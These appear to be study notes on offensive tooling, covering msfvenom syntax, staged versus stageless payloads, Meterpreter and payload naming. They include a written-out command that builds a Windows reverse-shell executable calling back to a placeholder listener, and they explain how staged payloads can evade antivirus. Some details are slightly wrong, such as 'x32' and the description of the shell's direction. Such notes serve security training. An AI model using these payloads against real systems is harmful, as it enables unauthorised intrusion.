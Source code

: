 ```
▄▖    ▜        ▐▘  ▄▖▘      ▗   ▄▖    ▜   ▘▗   
▙▘█▌▀▌▐ ▛▛▌  ▛▌▜▘  ▙▖▌▛▘█▌  ▚▘  ▙▖▚▘▛▌▐ ▛▌▌▜▘▛▘
▌▌▙▖█▌▐▖▌▌▌  ▙▌▐   ▌ ▌▌ ▙▖  ▚▌  ▙▖▞▖▙▌▐▖▙▌▌▐▖▄▌
                                    ▌
```
	        Some of the material might be taken from THM or HTB


# What are exploits?

## Metasploit
 WIP

## MsfVenom

MsfVenom is one of the premiere tools for generating malware and exploits/payloads, it can be used to make payloads in loads of runnable formats for different operating systems and architectures and its syntax is as follows:

	msfvenom -p <PAYLOAD> <OPTIONS>

so to run a windows x64 reverse shell as an exe file format we would type:

	msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listener-ip> LPORT=<listener-port>

- **-f** (format)

- Specifies the output format. In this case that is an executable (EXE)

- **-o** (file)

- The output location and filename for the generated payload.

- **LHOST=**(IP)

- Specifies the IP to connect back to. 

- **LPORT=**(port)

- The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.

### Staged vs Stageless payloads

- Staged payloads are split and sent into two part. The first part is called the stager, this piece of code is executed directly on the server itself. It connects back to a listener, but it doesn't contain any of the reverse shell code which would get flagged. It uses the established connection with the listener to load the real payload, executing it directly without it ever touching the disk, thus lowering the chances of it being caught by traditional antivirus software programs. Thus, our payload is split into two stages (hence the name 'staged' payload) a small initial stager which is then responsible for downloading the bulkier reverse shell code. Staged payloads require a listener such as the metasploit multi/handler
- Stageless payloads are more common and tend to be entirely self-contained and when executed sends a shell back to the waiting listener immediately.

Stageless payloads tend to be easier to use and catch; however, they are also bulkier, and are easier for an antivirus or intrusion detection program to discover and remove. Staged payloads are harder to use, but the initial stager is a lot shorter, and is sometimes missed by less-effective antivirus software. Modern day antivirus solutions will also make use of the Anti-Malware Scan Interface (AMSI) to detect the payload as it is loaded into memory by the stager, making staged payloads less effective than they would once have been in this area.

### Meterpreter

On the subject of Metasploit, another important thing to discuss is a _Meterpreter_ shell. Meterpreter shells are Metasploit's own brand of fully-featured shell. They are completely stable, making them a very good thing when working with Windows targets. They also have a lot of inbuilt functionality of their own, such as file uploads and downloads. If we want to use any of Metasploit's post-exploitation tools then we need to use a meterpreter shell, however, that is a topic for another time. The downside to meterpreter shells is that they _must_ be caught in Metasploit.

### Payload Naming Conventions

When working with msfvenom, it's essential to understand how the naming system works. The basic convention is as follows:

`<OS>/<arch>/<payload>`  
  
For example:

`linux/x86/shell_reverse_tcp`  
-OS: linux
-Architecture: x86
-Payload: reverse tcp shell
-Use case: trigger a reverse tcp shell to the target linux machine

The exception to this convention is Windows 32bit targets. For these, the arch is not specified and it's left empty.

`windows/shell_reverse_tcp`

-OS: windows
-Architecture: x32
-Payload: reverse tcp shell
-Use case: trigger a reverse tcp shell to the target windows machine

For a 64bit Windows target, the arch would be specified as normal (x64).

Another thing to note is that stageless payloads are denoted with underscores __
while staged payloads are denoted with forward slash /


A Windows 64bit staged Meterpreter payload would look like this:

`windows/x64/meterpreter/reverse_tcp`  

A Linux 32bit stageless Meterpreter payload would look like this:

`linux/x86/meterpreter_reverse_tcp`

---

the other important thing to note when working with msfvenom is:  

`msfvenom --list payloads`  

This can be used to list all available payloads, which can then be piped into `grep` to search for a specific set of payloads.
